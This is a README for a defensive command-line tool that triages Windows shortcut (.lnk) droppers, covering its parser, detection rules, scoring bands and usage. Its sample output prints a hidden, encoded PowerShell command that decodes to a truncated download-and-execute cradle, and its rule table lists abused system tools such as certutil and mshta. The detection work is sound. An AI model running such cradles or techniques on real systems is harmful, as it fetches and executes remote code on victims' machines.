



# effigy

**Static triage for Windows shortcut (`.lnk`) droppers — offline, single binary, zero dependencies.**

An effigy is a sculpture made to look like something real. So is a shortcut that
claims to be `Invoice_2026Q4.pdf` while its command line quietly runs a
base64-encoded PowerShell cradle.

Shortcut files remain the wrapper of choice for initial-access campaigns:
[malicious LNK samples more than tripled between 2023 and 2024 (21,098 → 68,392, Unit 42)](https://unit42.paloaltonetworks.com/lnk-malware),
DPRK-linked campaigns in 2026 ship [XOR-decoder functions inside the shortcut's own arguments](https://www.fortinet.com/blog/threat-research/dprk-related-campaigns-with-lnk-and-github-c2),
and ClickFix-style lures keep pushing users into executing packaged droppers.
Windows hides the `.lnk` extension by default — the icon is the lie you see;
the arguments are the payload you don't.

`effigy` reads the whole MS-SHLLINK structure and answers one question with an
exit code a pipeline can gate on: **is this shortcut clean, or is it a dropper?**



Masquerade detection — a document name on the outside, a script host underneath,
an icon borrowed from a PDF reader:



The forensic dump (`show`) exposes tracker droids, environment-block targets and
overlay bytes — the attribution surface DFIR teams actually need:



```
$ effigy scan suspicious.lnk

  suspicious.lnk
  target    C:\Windows\System32\cmd.exe
  path      briefing.ppsx
  args      powershell -nop -w hidden -enc SUVYKE5ldy1PYmplY3QgTmV0LldlYkNsaWVudCkuRG93bmxvYWRTdHJpbmc...
  icon      C:\Windows\System32\imageres.dll,-109

  critical args.decoded.lolbin          50  decodes to: IEX(New-Object Net.WebClient).DownloadString('http://19...
  high     args.lolbin.encoded-switch   30  encoded command switch present
  high     args.lolbin.hidden-window    30  hidden window switch present
  high     target.lolbin                25  C:\Windows\System32\cmd.exe
  ...

  score     193  band hostile
  verdict   HOSTILE
```

## What it reads

Full [MS-SHLLINK] parse, all bounds-checked — a truncated or hostile file can
never crash the parser, it degrades into findings:

- **Header** — link/file attribute flags, the three FILETIME timestamps,
  show-command, hot-key, CLSID sanity
- **LinkTargetIDList** — shell items: root GUIDs, drives, directories, files
- **LinkInfo** — local volume (type/serial/label), local base path, UNC
  network links (net name/device), common path suffix
- **StringData** — display name, relative path, working dir,
  **command-line arguments**, icon location (ANSI and UTF-16 variants)
- **ExtraData blocks** — environment-variable targets, tracker data
  (**machine ID + droid GUIDs** — attribution gold), special/known folders,
  Darwin (MSI advertisement), icon environment, shim layer, property store,
  Vista ID lists, unknown blocks
- **Overlay** — bytes appended past the terminal block (the fourth
  execution class in the Unit 42 taxonomy)

## What it judges

29 rules across the documented LNK abuse patterns:

| class | examples |
|-------|----------|
| encoded payloads | base64/hex blobs in arguments, payloads that **decode** to LOLBin commands, XOR decoder loops with key literals (the 2026 DPRK pattern), `[char]`-concat obfuscation |
| LOLBin census | `powershell -enc/-w hidden`, `mshta` + remote URL, `rundll32`, `certutil -urlcache`, `msiexec`, cradle markers (`IEX` + `DownloadString`) |
| masquerade | display name/path says document while target is a script host, icon fetched from a share/URL, icon-vs-target mismatch |
| staging | UNC targets, remote URLs, environment-variable execution paths |
| placement | Startup folder references, Darwin/MSI advertisement |
| forensics | zeroed timestamps, tracker machine IDs, overlay script content, unknown/invalid structures |

Verdict bands: **clean** (< 10) / **watch** (< 25) / **suspicious** (< 60) /
**hostile** (>= 60). Exit codes `0 / 1 / 3 / 10` map to the bands, `2` is
usage error — wire `--fail-on watch` straight into CI or a mail-gate pipeline.

## Usage

```
effigy scan <file|dir|->   triage one file, a directory tree, or stdin
  --json                   canonical single-line JSON
  --md                     markdown report
  --min-score N            exit 2 unless a file scores >= N
  --fail-on BAND           exit 10 when the worst verdict >= BAND
effigy show <files...>     deep forensic dump (blocks, droids, overlay bytes)
effigy forge [dir]         write the 10-fixture deterministic sample set
effigy rules [--json]      rule catalog + verdict bands
effigy selftest            unit battery (155 checks)
```

Decode layer details: base64 runs are verified with a strict decoder and
re-scanned after decoding (a second-pass catch for `certutil -decode` chains);
hex runs only count when they decode to printable text or an embedded `MZ`;
base64 and hex matches on the same span are de-duplicated so one blob cannot
score twice.

## For forensics

`show` dumps everything an investigator wants from a dropper artifact —
all four timestamps, the resolved target chain, IDList items, every extra
block including tracker droids (machine GUID + volume/file droids + birth
droids), property-store entries, and a hex view of overlay bytes.

Tracker blocks exist on plenty of benign shortcuts too, so `tracker.machine-id`
is informational — it tells you attribution data is *available*, not that the
file is bad.

## Build

```sh
dotnet build -c Release          # .NET 10 SDK
bash scripts/e2e.sh              # 63-gate end-to-end suite
bash scripts/build_release.sh    # trimmed single-file binaries + SHA256SUMS
```

Release assets are self-contained, trimmed, single-file binaries for
`linux-x64`, `linux-arm64`, `osx-arm64` and `win-x64` — no runtime install
needed on the analysis box. Everything runs offline; the tool never touches
the network.

## Notes

- Parsing follows [MS-SHLLINK](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-shllink/) with the defensive-reading posture the format demands.
- The fixture set (`forge`) is byte-deterministic — pinned to a fixed epoch — so e2e runs are reproducible on any platform.
- Test-network addresses (198.51.100.0/24) are used in fixtures; nothing in the repo is a live IOC.

MIT license. Built as part of a daily toolcraft series — see the
[profile](https://github.com/brerabineth) for the rest of the kit: ELF triage
(`husk`), binary post-mortems (`necropsy`), npm pre-install checks (`tarot`),
network beacon triage (`seance`), browser-extension audits (`wraith`).
